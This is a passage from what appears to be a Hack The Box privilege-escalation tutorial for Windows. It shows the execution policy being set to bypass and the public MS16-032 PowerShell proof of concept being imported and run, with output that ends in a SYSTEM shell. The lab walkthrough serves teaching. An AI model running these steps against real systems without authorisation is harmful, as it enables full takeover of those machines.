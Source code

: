 Looking through the results, we can see a rather extensive list, some Metasploit modules, and some standalone PoC exploits. We must filter through the noise, remove any Denial of Service exploits, and exploits that do not make sense for our target OS. One that stands out immediately as interesting is MS16-032. A detailed explanation of this bug can be found in this [Project Zero blog post](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) which is a bug in the Secondary Logon Service.

#### Exploiting MS16-032 with PowerShell PoC

Let's use a [PowerShell PoC](https://www.exploit-db.com/exploits/39719) to attempt to exploit this and elevate our privileges.

Windows Desktop Versions

```powershell-session
PS C:\htb> Set-ExecutionPolicy bypass -scope process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic. Do you want to change the execution
policy?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): A
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y


PS C:\htb> Import-Module .\Invoke-MS16-032.ps1
PS C:\htb> Invoke-MS16-032

         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 6
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1656

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1652
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!
```
